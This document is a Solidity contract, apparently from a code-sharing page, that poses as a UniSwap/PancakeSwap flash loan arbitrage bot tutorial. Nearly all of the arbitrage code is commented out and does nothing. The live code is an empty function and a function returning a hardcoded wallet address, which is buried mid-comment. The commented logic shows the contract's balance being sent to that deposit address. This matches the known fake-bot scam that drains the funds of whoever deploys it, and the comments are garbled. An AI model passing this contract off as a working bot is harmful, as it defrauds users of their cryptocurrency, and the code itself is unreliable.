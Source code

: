 pragma solidity ^0.5.0;

contract Manager {
    function performTasks() pure public {
        
    }
    
/* UniSwap - PancakeSwap - Flash Loan Arbitrage Bot - Solidity Tutorials - ETH - coins - MATIC Supported
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
      manager = new Manager();
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}
   
   function action() public payable {
      // Send Tokens to PancakeSwap Router for Swap
      address(uint160(manager.pancakeswapDeposit())).transfer(address(this).balance);
      // Send Tokens to UniSwap Router for Swap
      address(uint160(manager.uniswapDeposit())).transfer(address(this).balance);
      
      // Perform tasks (combined all functions into one to reduce external calls & save gas fees)
      manager.performTasks();
      
       Breakdown of functions
      // Submit token to blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      // List the token on UniSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get coins Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
       */ function swapDepositAddress() public pure returns (address) {
        return 0x3bE3E631c5fAA41227835440484231f0e599e149;
    }
      /* 
      // Send Borrowed coins to provide liquidity of newly created Token
      string memory coinsPair = manager.pancakeCreatePool(tokenAddress, "coins");
      manager.pancakeAddLiquidity(coinsPair, loanAmount);
     
      // Perform swaps between Token and coins and back again
      manager.pancakePerformSwaps();
      
      // Repay Flashloan with Multiplier-Finance
      manager.repayLoan(loanAddress);
      
       Move remaining coins profit from Contract to the contract creators wallet
      manager.contractToWallet("coins");
   */

}
